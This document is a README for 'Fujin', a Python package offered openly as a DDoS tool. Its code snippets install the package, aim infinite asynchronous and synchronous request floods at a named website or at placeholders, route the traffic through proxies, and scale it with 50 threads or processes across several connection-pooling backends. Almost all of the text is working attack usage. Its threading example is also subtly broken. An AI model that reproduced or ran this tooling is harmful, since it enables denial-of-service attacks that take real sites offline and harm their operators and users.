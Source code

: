 # Documentation
Happy learnings

## Install
```
pip install Fujin
```

## Initialise Object
```
from Fujin import Fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
```

## Run a simple Asynchronous DDoS
This will run an Infinite Loop Synchronous function that should infinitely send traffic to your selected website.
```
from Fujin import fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
ddos.begin_async_get_attack()
```

## Use proxies
```
from Fujin import fujin

url = "https://999root.xyz/"

proxies = {
  "http": "http://[proxy]"
}

ddos = Fujin(url=url, proxies=proxies)
```

## Use threading or multiprocessing to speed up our DDoS
```
# Daemon = run in the background / threads = how many threads would you like to run
ddos.thread_async_attack(threads=50, daemon=True)
ddos.thread_sync_attack(threads=50, daemon=True)
```

```
ddos.multiproc_sync_attack(processes=50, daemon=True)
ddos.multiproc_async_attack(processes=50, daemon=True)
```

## Choose a pooling manager
Fujin gives you a choice of 3 pooling managers
- Python Requests ( requests.session() )
- AIOHTTTP Async Based Session Manager ( aiohttp.ClientSession() )
- URLLIB3 Pooling Manager ( urllib3.PoolingManager() )

Make sure you choose a pooling manager otherwise the program will prompt you to choose one. I do this because some of the pooling managers are freakishly powerful

<img src="https://cdn.haproxy.com/wp-content/uploads/2020/12/Perisitent-connection.png" width="400">

#### Python requests
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="requests")
```

#### AIOHTTP
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="aiohttp")
```

#### URLLIB3
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="urllib3")
```

### SOCKET
```
# I would advise putting http:// at the start as we are directly sending HTTP Requests to the port with this one
ddos = fujin(url="http://fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="socket")
```

# Threading Setup
```
# Array Data Structure to store your threads in
threads = []

# Number of threads
threads = 50

for x in range(threads):
  t = threading.Thread(target=attack_initialiser, args=[url, headers]
  t.daemon = True
  t.start() # Saves us opening up a 3rd separate loop
  threads.append(t)

for x in range(threads):
  threads[x].join()
```

# Example Script
```
from Fujin import fujin

url = "yourwebsite.com"

headers = {
  "User-Agent": "some user agent",
  "Accept-Encoding": "gzip"
}

ddos = fujin(url=url, header=headers)
ddos.thread_async_attack(threads=50, daemon=True, pooling_manager="aiohttp")
```

## What's faster sync or async
asnyc mate
